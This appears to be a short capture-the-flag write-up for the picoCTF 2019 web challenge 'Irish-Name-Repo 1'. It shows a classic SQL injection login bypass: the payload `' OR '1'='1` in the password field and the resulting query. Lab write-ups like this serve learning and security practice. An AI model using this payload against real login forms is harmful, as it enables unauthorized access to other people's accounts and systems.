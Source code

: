 # 📝 Irish-Name-Repo 1

- **Author:** Chris Hensler  
- **Category:** Web Exploitation  
- **Difficulty:** Medium  
- **Tags:** picoCTF 2019  
---

## 🕵️‍♂️ Summary

A login page with minimal interaction hints at server-side user validation. A support post referencing a *"SQL Error"* reveals a potential SQL injection vulnerability.

---

## 💥 Exploit

By injecting into the login form:

- **Username:** `admin`  
- **Password:** `' OR '1'='1`

The backend SQL becomes:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1';
```
This bypasses authentication and logs us in as admin.

🎯 **Login successful → Flag obtained.**

![irish1](https://github.com/candypopZZ/ctf-writeup/blob/main/images/irish1.JPG?raw=true)

